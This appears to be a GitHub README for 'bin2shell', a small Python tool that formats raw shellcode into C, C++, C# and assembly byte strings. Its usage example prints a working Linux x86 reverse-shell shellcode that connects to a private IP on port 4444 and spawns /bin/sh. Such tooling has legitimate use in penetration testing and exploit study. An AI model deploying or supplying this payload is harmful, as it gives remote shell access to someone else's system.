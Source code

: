 <div align="right">
  <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fgithub-vps">
    <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fgithub-vps&label=Visitors&countColor=%2337d67a" />
  </a>
</div>


# 🐚 bin2shell

## 📜 Description
A small script that generate shellcode from various languages. 

📚 Table of Contents
- 📜 [Description](#-description)
- ⚙️ [Usage](#-usage)
- 📌 [Author](#-author)
- 👨🏾‍⚖️ [License](#-license)

## ⚙️ Help
```bash
python3 bin2shell.py -h

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2

usage: bin2shell.py [-h] -s shellcode.bin [-c c.txt] [-cpp cpp.txt] [-cs cs.txt] [-asm asm.txt]

Shellcode Generator (C,C#,CPP,ASM)

options:
  -h, --help            show this help message and exit
  -s shellcode.bin, --shellcode shellcode.bin
                        Input shellcode binary file
  -c c.txt, --c_output c.txt
                        Output file for C formatted shellcode
  -cpp cpp.txt, --cpp_output cpp.txt
                        Output file for C++ formatted shellcode
  -cs cs.txt, --cs_output cs.txt
                        Output file for C# formatted shellcode
  -asm asm.txt, --asm_output asm.txt
                        Output file for Assembly (NASM) formatted shellcode

Example usage: python3 shellcode_formatter.py -s shellcode.bin -c shellcode_c.txt
```
## Usage
```bash
$ python3 bin2shell.py -s shellcode.bin -c shellcode_c.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2


Formatted C Shellcode:

"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" 
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x0a\x5e\x68" 
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1" 
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3" 
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

Saved C formatted shellcode to shellcode_c.txt
```
## 📌 Author
- [Facebook](https://facebook.com/l0n3m4n)
- [Twitter (X)](https://twitter.com/l0n3m4n)
- [Medium](https://medium.com/l0n3m4n)
- [Website](https://l0n3m4n.github.io)

## 👨🏾‍⚖️ License
This project is under terms of the [MIT License](LICENSE). For fixing Bugs, create [issue](https://github.com/l0n3m4n/bin2shell/issues/new)
